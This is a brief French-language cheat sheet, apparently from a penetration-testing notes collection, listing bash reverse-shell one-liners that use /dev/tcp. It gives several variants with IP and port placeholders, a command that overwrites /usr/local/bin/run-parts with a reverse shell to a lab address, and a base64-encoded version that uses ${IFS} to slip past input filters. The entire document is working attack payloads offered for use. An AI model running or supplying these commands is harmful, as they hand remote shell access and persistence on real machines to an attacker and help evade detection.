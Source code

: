 # bash reverse shell

### Certaines versions de Bash permettent de transmettre un reverse-shell  via « /dev/tcp/ » ou « /dev/udp/ » (version compilée avec le drapeau  « –enable-net-redirections »).

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done

exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0

0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196


## le meilleur:

echo "/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" >  file 

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.13.131/443 0>&1'" > /usr/local/bin/run-parts

### obfuscation base 64: (bash -i >& /dev/tcp/10.10.13.25/443 0>&1)
'echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMy4yNS80NDMgMD4mMQ==|base64${IFS}-d|bash;'

